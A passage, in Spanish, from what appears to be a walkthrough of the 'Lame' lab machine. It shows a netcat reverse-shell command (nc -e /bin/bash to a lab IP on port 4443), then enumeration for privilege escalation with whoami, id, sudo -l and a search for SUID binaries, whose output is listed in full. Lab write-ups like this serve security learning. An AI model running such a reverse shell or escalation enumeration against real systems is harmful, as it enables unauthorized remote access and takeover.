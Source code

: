 Ahora establecemos una conexión a nuestra máquina para tener una shell y hacemos  [[Tratamiento de la tty]]] para trabajar mas comodos. Nos ponemos en escucha por el puerto 4443:

```bash
$ nohup nc -e /bin/bash 10.10.14.15 4443 &
```

Ahora enumeramos el sistema para determinar como podemos elevar privilegios:

```bash
daemon@lame:/home/makis$ whoami
daemon
daemon@lame:/home/makis$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon@lame:/home/makis$ sudo -l
[sudo] password for daemon: 
sudo: pam_authenticate: Conversation error
daemon@lame:/home/makis$ cd /
daemon@lame:/$ find \-perm -4000 2>/dev/null
./bin/umount
./bin/fusermount
./bin/su
./bin/mount
./bin/ping
./bin/ping6
./sbin/mount.nfs
./lib/dhcp3-client/call-dhclient-script
./usr/bin/sudoedit
./usr/bin/X
./usr/bin/netkit-rsh
./usr/bin/gpasswd
./usr/bin/traceroute6.iputils
./usr/bin/sudo
./usr/bin/netkit-rlogin
./usr/bin/arping
./usr/bin/at
./usr/bin/newgrp
./usr/bin/chfn
./usr/bin/nmap
./usr/bin/chsh
./usr/bin/netkit-rcp
./usr/bin/passwd
./usr/bin/mtr
./usr/sbin/uuidd
./usr/sbin/pppd
./usr/lib/telnetlogin
./usr/lib/apache2/suexec
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/pt_chown
./usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
./usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
daemon@lame:/$
```
